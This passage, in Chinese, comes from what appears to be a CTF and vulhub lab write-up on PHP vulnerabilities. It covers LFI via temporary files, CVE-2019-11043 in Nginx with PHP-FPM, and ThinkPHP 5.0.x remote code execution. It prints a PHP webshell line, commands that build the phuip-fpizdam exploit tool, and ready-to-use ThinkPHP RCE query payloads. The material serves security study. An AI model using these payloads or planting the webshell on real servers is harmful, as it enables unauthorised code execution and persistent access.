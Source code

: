 
利用脚本[exp.py](https://github.com/vulhub/vulhub/blob/master/php/inclusion/exp.py)实现了上述过程，成功包含临时文件后，会执行`<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>`，写入一个新的文件`/tmp/g`，这个文件就会永久留在目标机器上。


参考：[PHP文件包含漏洞（利用phpinfo）](https://github.com/vulhub/vulhub/blob/master/php/inclusion/README.zh-cn.md)
[vulhub-php/php_inclusion_getshell](https://www.cnblogs.com/tr1ple/p/10993110.html)
[PHP LFI 利用临时文件 Getshell 姿势 ](https://www.anquanke.com/post/id/201136)

#### [PHP]CVE-2019-11043
在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响，另外，PHP 5.6版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行：
* PHP 7.0 版本
* PHP 7.1 版本
* PHP 7.2 版本
* PHP 7.3 版本

CVE-2019-11043 是一个远程代码执行漏洞，使用某些特定配置的 Nginx + PHP-FPM 的服务器存在漏洞，可允许攻击者远程执行代码。

向Nginx + PHP-FPM的服务器 URL发送`%0a`时，服务器返回异常。
该漏洞需要在nginx.conf中进行特定配置才能触发。具体配置如下：
```
location ~ [^/]\.php(/|$) {
...
fastcgi_split_path_info ^(.+?\.php)(/.*)$;
fastcgi_param PATH_INFO $fastcgi_path_info;
fastcgi_pass   php:9000;
...
}
```
攻击者可以使用换行符（％0a）来破坏`fastcgi_split_path_info`指令中的Regexp。 Regexp被损坏导致PATH_INFO为空，从而触发该漏洞
安装利用的工具：(千万不要apt安装go)
```bash
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go get -v && go build
```
![](https://img-blog.csdnimg.cn/20210123000818211.png)
最后执行脚本即可
![](https://img-blog.csdnimg.cn/20210123001141716.png)
我们访问`http://your-ip:8080/index.php?a=id`，即可查看到命令已成功执行
![](https://img-blog.csdnimg.cn/20210123001256733.png)
(注意，因为php-fpm会启动多个子进程，在访问`/index.php?a=id`时需要多访问几次，以访问到被污染的进程。)

参考：
[PHP 远程代码执行漏洞复现（CVE-2019-11043）【反弹shell成功】 ](http://blog.leanote.com/post/snowming/9da184ef24bd)
[PHP-FPM 远程代码执行漏洞（CVE-2019-11043）](https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md)
### [ThinkPHP]
[thinkphp v6.0.x 反序列化利用链挖掘 ](https://www.anquanke.com/post/id/187393)
#### [ThinkPHP]5-Rce
之前收集了一些版本漏洞，本题版本为5.0.x，直接使用payload：
`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
![](https://img-blog.csdnimg.cn/20200520194450337.png)
本题flag也在phpinfo()内
payload：`?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`
